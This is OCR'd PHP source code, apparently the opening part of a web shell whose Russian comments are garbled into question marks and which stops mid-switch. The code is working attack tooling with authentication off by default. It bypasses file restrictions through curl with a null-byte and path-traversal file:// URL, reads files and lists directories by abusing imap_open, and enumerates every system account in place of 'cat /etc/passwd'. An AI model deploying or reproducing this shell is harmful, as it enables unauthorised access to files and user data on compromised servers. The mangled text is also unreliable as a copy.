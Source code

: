 /* ~~~ ????????? | Options  ~~~ */
// ????? ????? | Language
// $language='ru' - ??????? (russian)
// $language='eng' - english (??????????)
$language='eng';
// ?????????????? | Authentification
// $auth = 1; - ?????????????? ????????  ( authentification = On  )
// $auth = 0; - ?????????????? ????????? ( authentification = Off )
$auth = 0;
// ????? ? ?????? ??? ??????? ? ??????? (Login & Password for access)
// ?? ???????? ??????? ????? ??????????? ?? ???????!!! (CHANGE THIS!!!)
// ????? ? ?????? ????????? ? ??????? ????????? md5, ???????? ?? ????????? 'tryag'
// Login & password crypted with md5, default is 'tryag'
$name='7fea0708f4bc4266ab5efcd242028106'; // ????? ????????????  (user login)
$pass='a66abb5684c45962d887564f08346e8d'; // ?????? ???????????? (user password)
/******************************************************************************************************/
if(empty($_POST['Mohajer22'])){
} else {
$m=$_POST['Mohajer22'];
$ch =
curl_init("file:///".$m."\x00/../../../../../../../../../../../../".__FILE__);
curl_exec($ch);
var_dump(curl_exec($ch));
}
$string = !empty($_POST['string']) ? $_POST['string'] : 0;
$switch = !empty($_POST['switch']) ? $_POST['switch'] : 0;
if ($string && $switch == "file") {
$stream = imap_open($string, "", "");
$str = imap_body($stream, 1);
if (!empty($str))
echo "&lt;pre&gt;".$str."&lt;/pre&gt;";
imap_close($stream);
} elseif ($string && $switch == "dir") {
$stream = imap_open("/etc/passwd", "", "");
if ($stream == FALSE)
die("Can't open imap stream");
$string = explode("|",$string);
if (count($string) &gt; 1)
$dir_list = imap_list($stream, trim($string[0]), trim($string[1]));
else
$dir_list = imap_list($stream, trim($string[0]), "*");
echo "&lt;pre&gt;";
for ($i = 0; $i &lt; count($dir_list); $i++)
echo "$dir_list[$i]"."&lt;p&gt;&nbsp;&lt;/p&gt;" ;
echo "&lt;/pre&gt;";
imap_close($stream);
}
if ($_POST['plugin'] && ($submit == "Show")){
                                  $param1 = $_POST[param1];
                                $param2 = $_POST[param2];
                                  switch($_POST['plugin']){
                                 case("cat /etc/passwd"):
                                           for($uid=0;$uid&lt;60000;$uid++){   //cat /etc/passwd
                                        $ara = posix_getpwuid($uid);
                                                if (!empty($ara)) {
                                                  while (list ($key, $val) = each($ara)){
                                                    print "$val:";
                                                  }
                                                  print "&lt;br&gt;";
                                                }
                                        }
                                break;
                                        case ("/bin/ls"):